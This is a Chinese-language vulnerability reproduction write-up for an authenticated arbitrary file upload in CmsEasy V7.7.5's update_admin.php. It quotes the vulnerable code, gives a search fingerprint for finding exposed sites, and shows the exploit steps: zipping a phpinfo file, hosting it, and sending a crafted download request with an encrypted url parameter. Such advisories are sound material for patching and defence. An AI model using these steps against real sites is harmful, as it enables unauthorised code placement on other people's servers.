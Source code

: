 # CmsEasy update_admin.php 后台任意文件上传漏洞

## 漏洞描述

CmsEasy 后台存在任意文件上传漏洞，通过文件 service.php 加密Url参数执行即可上传任意文件

## 漏洞影响

```
CmsEasy V7.7.5_20210919
```

## 网络测绘

```
body="cmseasyedit"
```

## 漏洞复现

![image-20220518143113914](./images/202205181436747.png)

存在漏洞的文件为 `lib/admin/update_admin.php`

![image-20220518143714802](./images/202205181437877.png)

其中需要注意的代码为

```
function downfile_action()
    {
        $url = front::get('url');
        $url=service::getInstance()->unlockString($url,"cmseasy_url");
        $res = $this->get_file($url, 'cache');
        if (!$res) {
            $res = array(
                'err' => 1,
                'data' => lang_admin('update_package_download_failed'),
            );
        } else {
            @unlink('upgrade/config_cn.php');
            @unlink('upgrade/config_cn.tmp.php');
            @unlink('upgrade/upgrade.sql');
            @unlink('upgrade/command.php');
            front::remove(ROOT.'/cache/data');
            front::remove(ROOT.'/cache/template');//清空全部语言
            $langdata=getlang();
            if($langdata != ""){
                foreach ($langdata as $key=>$val){
                    front::remove(ROOT.'/cache/'.$val['langurlname']);
                    front::remove(ROOT.'/'.$val['langurlname'].'/template');
                }
            }
            //先清空缓存
            user::deletesession();
            category::deletesession();
            //提取分类
            if(file_exists(ROOT."/lib/table/type.php")) {
                type::deletesession();
            }
            //提取专题
            if(file_exists(ROOT."/lib/table/special.php")) {
                special::deletesession();
            }
            $archive = new PclZip('cache/patch.zip');
            $archive->extract(PCLZIP_OPT_PATH, ROOT, PCLZIP_OPT_REPLACE_NEWER);

            if(file_exists('upgrade/upgrade.sql')) {
                $sqlquery = file_get_contents('upgrade/upgrade.sql');
                $sqlquery = str_replace('`cmseasy_', '`' . config::getdatabase('database', 'prefix'), $sqlquery);

                $sqlquery = str_replace("\r", "", $sqlquery);
                $sqls = preg_split("/;(--)*[ \t]{0,}\n/", $sqlquery);
                $this->exec_cms_sql($sqls);
            }

            if(file_exists('upgrade/command.php')){
                include ROOT . '/upgrade/command.php';
            }
            $res = array(
                'err' => 0,
                'message' => $this->message,
                'data' => lang_admin('upgrade_successful'),
            );
        }

        echo json_encode($res);
        exit;
    }
```

其中使用 unlockString 和 get_file 方法

```
$url = front::get('url');
$url=service::getInstance()->unlockString($url,"cmseasy_url");
$res = $this->get_file($url, 'cache');
```

![image-20220518143733612](./images/202205181437707.png)

写入后在上层目录写入文件，即Web根目录，创建压缩包并上传可访问的服务器上

```
zip phpinfo.zip phpinfo.php
```

构造下载请求

![image-20220518143751402](./images/202205181437504.png)

```
/index.php?case=update&act=downfile&admin_dir=admin&site=default&url=buTdBnP8%3DJ%3DELYuF8Z2IwZyM-awr9fH%3D0cax6mxICukxw
```

![image-20220518143812559](./images/202205181438629.png)

![image-20220518143830101](./images/202205181438160.png)

